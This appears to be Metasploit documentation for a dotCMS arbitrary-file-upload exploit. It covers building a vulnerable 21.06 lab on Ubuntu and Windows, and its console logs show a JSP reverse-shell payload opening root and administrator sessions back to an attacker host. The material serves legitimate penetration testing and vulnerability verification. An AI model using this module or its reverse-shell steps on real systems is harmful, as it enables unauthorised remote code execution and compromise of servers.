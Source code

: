 ## Vulnerable Application

### Description
This module exploits an arbitrary file upload vulnerability in dotCMS versions before 22.03, 5.3.8.10, 21.06.7 in each
respective stream. The module uploads a jsp payload to the tomcat ROOT directory and accesses it to trigger its execution.

### Clone and build a vulnerable version of dotCMS:
This requires Java 1.8 to be installed and JAVA_HOME to be set (see below for per OS instructions).
1. `git clone https://github.com/dotCMS/core.git`
1. `cd core`
1. `git checkout 7d604e5 (this is vulnerable version 21.06)`
1. `cd dotCMS/`
1. `./gradlew createDist`
```
Starting a Gradle Daemon (subsequent builds will be faster)

<output truncated>

BUILD SUCCESSFUL in 12m 53s
21 actionable tasks: 19 executed, 2 up-to-date
```

If the build was successful you should now have a vulnerable 21.06 linux and windows instance:
```
msfuser@ubuntu:~/core/dotCMS$ ls -l ../dist-output/
total 811132
-rw-rw-r-- 1 msfuser msfuser 413134562 May 20 10:22 dotcms_21.06.tar.gz
-rw-rw-r-- 1 msfuser msfuser 417462181 May 20 10:24 dotcms_21.06.zip
```

Inside each of the above compressed directories exists a directory `dotserver` which contains the vulnerable app.

### Ubuntu 20.04 install

#### Install JAVA 1.8

1. `export JAVA_HOME="/usr/lib/jvm/java-8-openjdk-amd64"`
1. `export PATH=$JAVA_HOME/bin:$PATH`
1. `sudo apt-get install openjdk-8-jdk`

#### Install Postgres

1. `sudo apt install postgresql -y`
1. `sudo -u postgres psql`
1. Change the default database, username and password from `dotcms` to `postgres` (or create the db and user `dotcms`).
1. `vim $DOTCMS_HOME/dotserver/tomcat-9.0.41/webapps/ROOT/WEB-INF/classes/db.properties`
```
##Postgres default configuration
driverClassName=org.postgresql.Driver
jdbcUrl=jdbc:postgresql://localhost/postgres
username=postgres
password=postgres
```

#### Install Elastic Search

1. `sudo apt install apt-transport-https ca-certificates wget`
1. `wget -qO - https://artifacts.elastic.co/GPG-KEY-elasticsearch | sudo apt-key add -`
1. `sudo sh -c 'echo "deb https://artifacts.elastic.co/packages/7.x/apt stable main" > /etc/apt/sources.list.d/elastic-7.x.list'`
1. `sudo apt update`
1. `sudo apt install elasticsearch`
1. `sudo systemctl daemon-reload `
1. `sudo systemctl enable elasticsearch.service`
1. `sudo systemctl start elasticsearch.service`
1. `sudo systemctl status elasticsearch.service`
1. Edit `dotcms-config-cluster.properties` to ensure the following properties are set:
1. `vim $DOTCMS_HOME/dotserver/tomcat-9.0.41/webapps/ROOT/WEB-INF/classes/dotcms-config-cluster.properties`
```
ES_ENDPOINTS=http://localhost:9200

ES_PROTOCOL=http
ES_HOSTNAME=localhost
ES_PORT=9200

ES_TLS_ENABLED=false
```

#### Run dotCMS

1. `cd dotserver/tomcat-9.0.41/bin/`
1. `chmod 755 *.sh`
1. `catalina.sh run`
1. Test the server is up with: `curl -vk localhost:8080/dotAdmin/`

### Windows 10 install

#### Install Java 1.8

1. Download and follow wizard to install:
    https://www.oracle.com/java/technologies/downloads/#license-lightbox

#### Install Elasticsearch 8.2.0

Download and follow wizard to install:
https://artifacts.elastic.co/downloads/elasticsearch/elasticsearch-8.2.0-windows-x86_64.zip dotcms-config-cluster.properties
1. Ensure dotcms-config-cluster.properties contains the same properties as specified above

#### Install Postgres 10.21

1. Download and follow wizard to install:
    https://www.enterprisedb.com/postgresql-tutorial-resources-training?uuid=ea5c8104-3940-4ed1-b427-81cf19781581&campaignId=70138000000rYFmAAM
1. Ensure db.properties contains the same properties as specified above

#### Run dotCMS

1. `cd dotserver\tomcat-9.0.41\bin\`
1. `catalina.bat run`
1. Test the server is up with: `curl -vk localhost:8080/dotAdmin/`

## Verification Steps
1. `use multi/http/dotcms_file_upload_rce`
2. `set RHOSTS [ips]`
3. `set LHOST [ips]`
4. `run`

## Scenarios

### Ubuntu 20.04 dotCMS 21.06:
```
msf6 > use exploit/multi/http/dotcms_file_upload_rce
[*] Using configured payload java/jsp_shell_reverse_tcp
msf6 exploit(multi/http/dotcms_file_upload_rce) > set rhosts 172.16.199.227
rhosts => 172.16.199.227
msf6 exploit(multi/http/dotcms_file_upload_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(multi/http/dotcms_file_upload_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Writing JSP payload
[+] Successfully wrote JSP payload
[*] Executing JSP payload
[+] Successfully executed JSP payload
[+] Deleted ../webapps/ROOT/XZhKXIssjD.jsp
[+] Deleted ../webapps/ROOT/M4NYE9Kb.jsp
[*] Command shell session 1 opened (172.16.199.1:4444 -> 172.16.199.227:39610) at 2022-05-20 15:01:25 -0400

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux ubuntu 5.13.0-41-generic #46~20.04.1-Ubuntu SMP Wed Apr 20 13:16:21 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

### Windows 10 dotCMS 21.06:
```
msf6 > use dotcms_file_upload_rce
[*] Using exploit/multi/http/dotcms_file_upload_rce
msf6 exploit(multi/http/dotcms_file_upload_rce) > set rhosts 172.16.199.231
rhosts => 172.16.199.231
msf6 exploit(multi/http/dotcms_file_upload_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(multi/http/dotcms_file_upload_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Writing JSP payload
[+] Successfully wrote JSP payload
[*] Executing JSP payload
[+] Successfully executed JSP payload
[!] Tried to delete ../webapps/ROOT/AkqMhxCZWr.jsp, unknown result
[!] Tried to delete ../webapps/ROOT/xdPfn9JTdu33X.jsp, unknown result
[*] Command shell session 1 opened (172.16.199.1:4444 -> 172.16.199.231:50016) at 2022-05-20 12:41:36 -0400


Shell Banner:
Microsoft Windows [Version 10.0.19042.1706]
(c) Microsoft Corporation. All rights reserved.
-----


C:\Users\Administrator\Downloads\dotcms_21.06\dotserver\tomcat-9.0.41\bin>whoami
whoami
desktop-h1lncdm\administrator

C:\Users\Administrator\Downloads\dotcms_21.06\dotserver\tomcat-9.0.41\bin>systeminfo
systeminfo

Host Name:                 DESKTOP-H1LNCDM
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.19042 N/A Build 19042

<output truncated>
```
Note on windows the module reports an unknown result when trying to delete the files though it does successfully
